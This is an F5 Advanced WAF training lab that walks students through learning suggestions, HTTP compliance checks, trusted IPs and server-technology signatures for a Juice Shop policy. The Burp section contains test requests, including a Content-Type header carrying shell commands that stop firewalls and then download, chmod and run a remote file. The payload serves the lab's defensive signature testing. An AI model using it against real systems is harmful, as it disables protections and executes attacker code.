







Exercise 4.1: Transparent Policy 
----------------------------------------

Objective
~~~~~~~~~~
We created a transparent policy way back in Lab 1 to configure Geolocation enforcement & Layer 7 XFF inspection for IPI. We then tested out the Threat Campaign signatures in Lab 3 and now we will explore and test some of the other components that should be in scope for enforcement early on in your WAF deployment. 

- Review Learning & Blocking & Policy Building Process settings
- Implement HTTP Protocol Compliancy checks and test
- Test with a HTTP Protocol violation plus XSS attack
- Enable Server Technologies & Attack Signatures
- Review Reporting

- Estimated time for completion **30** **minutes**.

Learning & Blocking 
~~~~~~~~~~~~~~~~~~~~~
Recall from Lab 1, that we used the Rapid Deployment Policy template to create our policy and we deployed it in manual learning mode. This means as violations and/or false positives occur, the system will make suggestions to modify the policy. The admin will manually evaluate the suggestions and Approve, Ignore or Delete them.  

#. Navigate to **Security > Application Security >  Policy Building > Traffic Learning** and notice that there are no "learning suggestions" displayed yet. So far, all of our site traffic has been generated by a malicious script so now it's time to generate some real user traffic. 
#. In the Chrome browser open a new tab, click on the **OWASP Juiceshop** bookmark in the Bookmarks Toolbar and accept the certificate warning. Browse around the site and perform several actions as a real user would. 
#. In the top right of the site, click the **Account Menu** and select **Login** and then click **Not yet a customer?**. 

.. image:: images/customer.png
  :width: 600 px

4. Create an account using "f5student@f5agility.com" for email and use the same password you've been using for the labs and pick whatever security question you like. 
#. Click **Register** and then login to the Juice Shop.
#. Click back on the Advanced WAF GUI tab in your browser and refresh the traffic learning screen. If you navigated away or closed the tab, open a new one, login to Advanced WAF and go to: **Security > Application Security >  Policy Building > Traffic Learning**.
#. You will see many Suggestions and a **learning score** that the system assigns based on how many times it has seen an occurence and from what source. You can **Accept**, **Delete**, **Ignore** or **Export** the suggestion. 

.. NOTE:: This is where it usually starts to get a little dicey for a first-time WAF admin. Always look very carefully at the suggested action before deciding on which action to take. It is also helpful to define a whitelist so that the policy can learn quicker and from known trusted sources. You generally do not want the system learning from random and/or hostile Internet traffic and making suggestions to relax the policy.   

8. Notice that most of the learning suggestions involve enabling various HTTP protocol Compliance Checks.   
#. Find and select the suggestion for **Enable HTTP protocol compliance check - HTTP Check: No Host header in HTTP/1.1 request**. 
#. Review the **Suggested Action** and click **Accept** and **Apply Policy**. 

.. image:: images/proto.png
  :width: 600 px

11. What just happened and how do you see what changed by who and when? Audit Log of course!
#. Go to **Security > Application Security >  Audit > Log** and review the most recent actions. You can see who, what and when every component within a policy was modified. (This step is not necessary but meant to draw your attention to the audit log)

.. image:: images/audit.png
  :width: 600 px

13. Click on the Element Name (blue hyperlink) **No Host header in HTTP/1.1 request** This takes you to the Learning and Blocking Settings screen where the check was enabled. 
#. Notice that by default in the Rapid Deployment Policy, learning is enabled for most of the common HTTP Protocol compliancy checks. Also notice that the **Enable** checkbox next to **No Host header in HTTP/1.1 request** is now checked.  

15. Uncheck the **Learn box** for this violation then **Save** and **Apply** policy. 
#. Open a new Terminal and send the following request. This request is being sent without a host header and should now raise a violation in our Event Log rather than a learning suggestion. 

``curl -k -H 'Host:' https://juiceshop.f5agility.com/``

17. Review the Alarmed request in **Security > Event Logs > Application  > Requests**.

.. image:: images/httpviol.png
  :width: 600 px

18. To review, you just took a learning suggestion and accepted it to enable a protocol compliancy check and then you disabled future learning suggestions for this event. Violations are now alarmed in the Event Logs. 
#. Go back to **Security > Application Security > Policy Building > Traffic Learning** You would now typically go through and enable all of the checks that the policy is recommending regarding http protocol compliance and evasion technique detection.

.. NOTE:: Remember that your policy is safely in transparent mode so accepting suggestions and enabling checks will only raise alarms and no blocking actions will occur. This is why it is very important to start off transparently until you fully understand the basics of managing a WAF policy. 

False Positive Remediation 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~
1. In Juice Shop click on any item and **Write a review** and click **Submit**
#. In Advanced WAF navigate to **Security > Event Logs > Application  > Requests** and look for the Sev3 alert for the request going to **rest/product/reviews**.

.. image:: images/sev3.png
  :width: 600 px

3.  Click **Accept** to allow a new method of **Put** in our policy. Click **Apply Policy**. Navigate to **Security > Application Security > Headers > Methods** and you will see our newly added "Allowed Method" of **Put**.

.. image:: images/headmeth.png
  :width: 600 px

4. In a new browser tab, make sure you are logged in to JuiceShop and leave another review for **Apple Juice**. 
#. Review the request in **Security > Event Logs > Application  > Requests**. 

.. image:: images/put.png
  :width: 600 px

.. NOTE:: Put is not a default allowed method in a Rapid Deployment Policy. Working through learning suggestions and false-positives is an essential part of policy development and should occur as early as possible during software development and testing. It IS NOT best-practice to wait until the site is in production before bolting on a WAF policy as an after-thought. 

Policy Building Process
~~~~~~~~~~~~~~~~~~~~~~~~~~~

One thing you can do to greatly increase the integrity of the learning suggestions is, define trusted IP's. You can also tell the system to Only learn from trusted IP's which is a very wise thing to do if you are developing policy on an app that is exposed to untrusted or Internet traffic. 

#. Go to **Security > Application Security >  Policy Building > Learning and Blocking Settings** and expand the **Policy Building Process** section at the bottom. Change the view from Basic to Advanced. Here you can see settings that this particular policy is using for learning. Notice that **Trusted IP Addresses List** is empty. 
#. Click the little window/arrow icon next to **Trusted IP Addresses List** is empty.
#. This takes you to: **Security > Application Security > Security Policies > Policies List > juiceshow_waf policy > IP Address Exceptions**. Click **Add**.

 
4. For IP Address: **10.0.0.0** and for Netmask: **255.0.0.0**. Check the box for **Policy Builder trusted IP** and click **Create** and **Apply Policy**.

.. image:: images/ip.png
  :width: 600 px

5. Navigate back to **Security > Application Security >  Policy Building > Learning and Blocking Settings** and expand the **Policy Building Process** section. Notice that our newly defined network is now a **Trusted IP**. This will greatly enhance the speed and quality of learning suggestions. 
#. Change the view from Basic to Advanced and review all the fine-grained configurations for the **Policy Building Process**.

**You now know how to define a trusted ip and configure the policy building process settings**

Burp'ing the App
~~~~~~~~~~~~~~~~
In this section we are going to use the free/community version of an excellent DAST tool; Burp. Unfortunately, the free version does not actually allow DAST but it is still an excellent tool for packet crafting and that's exactly how we are going to use it.

Accept the Remaining Learning Suggestions
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
1. Go to **Security > Application Security >  Policy Building > Traffic Learning** and select all of the remaining suggestions and click **Accept > Accept suggestions** and then **Apply Policy**. 

.. image:: images/accept.png
  :width: 600 px

HTTP Compliancy Check - Bad Host Header Value
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The **Bad Host Header Value** check is an HTTP Parser Attack and definitely something that should be implemented as part of **Good WAF Security**. It was included in the suggestions you just accepted. 

**Risk:**
If we allow bad host header values they can be used to Fuzz web servers and gather system information. Successful exploitation of this attack could allow for the execution of XSS arbitrary code.

#. Launch **Burp** from the Desktop. **Do Not click multiple times. It takes a few moments to load**. 

.. image:: images/burp.png

**DO NOT update**. 

#. Choose **Temporary Project** and click **Next** and then click **Start Burp**. 
#. Click the **Repeater** tab and paste in the following http request (**Replace password with the password you've been using all along.**) and click **Send**.
#. A popup window will appear to configure the target details. For host use: **10.1.10.145**. For port use: **443**. Check the **Use HTTPS** box. 
#. Click **Send**

|

**XSS in HOST Header**

::

  POST https://10.1.10.145/rest/user/login HTTP/1.1
  User-Agent: BabyYoda
  Pragma: no-cache
  Cache-Control: no-cache
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 38
  Host: 

  username=f5student&password=[password]

.. image:: images/burpreq.png
  :width: 600 px

5. Back in Advanced WAF, browse to **Security > Event Logs > Application > Requests** and review the alert for this Sev5 attack. Note the alert severity is much higher (5) for this attack type due to several violations occuring including HTTP protocol Violations and several XSS signatures.
#. Review all the details and then click the **3** under the **Attack Signature Detected** violation to see all of the staged XSS Attack Signatures that were triggered. 

Server Technologies & Attack Signatures
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

In this final exercise we will examine server technologies which allow you to automatically discover server-side frameworks, web servers and operating systems. This feature helps when the backend technologies are not well known or communicated from the Dev team.

#. Go to **Security > Application Security > Policy Building > Learning and Blocking Settings > Attack Signatures**. (You may need to expand **Policy Building Settings** in order to see the Attack Signatures.​)
#. Review the Attack Signatures that were applied during policy creation from back in Lab 1. **Generic Detection Signatures (High/Medium Accuracy)**. Notice that they are set to **Learn/Alarm/Block and Staging is enabled**. 
#. Locate Server Technologies and expand the option. Click **Enable Server Technology Detection**, click **Save** and then click the **New Window Icon** next to Server Technologies. 

.. image:: images/st.png
  :width: 600 px

4. This takes you to: **Security > Application Security > Security Policies > juiceshop_waf > General Settings**. Scroll down to **Advanced Settings > Server Technologies** and click in the box. Search for Linux since we know the server is running Linux. 

The system will display a box describing which new signature sets will be applied. Click **Confirm**. 

.. image:: images/ast.png
  :width: 600 px

**Make sure to Save and Apply Policy.**

5. Go to **Security > Application Security > Policy Building > Learning and Blocking Settings > Attack Signatures** (again, expand **Policy Building Settings** if needed) and notice the new Unix/Linux Server Technology signature sets that were added to the policy. 

6. Click **Change** and review all of the additional Signature Sets that you can add manually add to a policy. Click **Cancel**

Framework Attacks
~~~~~~~~~~~~~~~~~~~

Back in BURP navigate to the repeater tab and adjust the payload to the following and hit **Send**. **Replace password with the password you’ve been using all along**

|

**Framework Attack**

::

  POST https://10.1.10.145/rest/user/login HTTP/1.1
  User-Agent: ImperialProbeDroid
  Pragma: no-cache
  Cache-Control: no-cache
  Content-Type: /etc/init.d/iptables stop; service iptables stop; SuSEfirewall2 stop; reSuSEfirewall2 stop; cd /tmp; wget -c https://10.1.10.145:443/7; chmod 777 7; ./7;
  Content-Length: 38
  Host: DarthMaul

  username=f5student&password=[password]

#. Browse to **Security > Event Logs > Application > Requests** and look for the most recent Sev5 Event. Select the event, review the violations and click the **2** under Occurrences for the Attack signature detected violation.  
#. Click the little blue **i** and review the Attack Signature Details. We can see that this was a Systems based Unix/Linux Signature in staging mode. 

.. image:: images/systems.png
  :width: 600 px

We are now alerting on attacks aimed at Server Technologies. 

Review Reporting
~~~~~~~~~~~~~~~~~~
#. Navigate to **Security > Reporting > Application > Charts** and change the View By: to **Ip Intelligence** and review the chart. 
#. Change the chart type from Absolute to **Stacked**
#. Change the View By: to **Client IP Addresses**

.. image:: images/client_ip.png
  :width: 600 px

4. Change the Advanced Filter to: **Top Alarmed URLs**. 
#. Change the Advanced Filter to: **Top attacks in the last day** and View By: to **Client Countries**. 
#. Explore additional charts that you can generate and export. 

7. Navigate to **Security > Overview > Application > Traffic**

.. image:: images/overview.png
  :width: 600 px

8. Go to **Security > Overview > OWASP Compliance** and review the report. As you can see there is still much to do from a best-practices App-Sec perspective. For more information check out our OWASP 111 Lab which covers these categories in detail. 

.. image:: images/owasp.png
  :width: 600 px

**This completes Lab 4**

**Congratulations! It was a long road but you made it though and now have the knowledge to go forth and start testing. Given the Advanced WAF is a proxy, you could build a Virtual Edition F5 locally on your machine and implement a number of test scenarios with no impacts to a production application. Contact your friendly neighborhood F5 Solutions Engineer for more information!! Hope to see you in the 241 Elevated WAF Protection class! Cheers!!!**

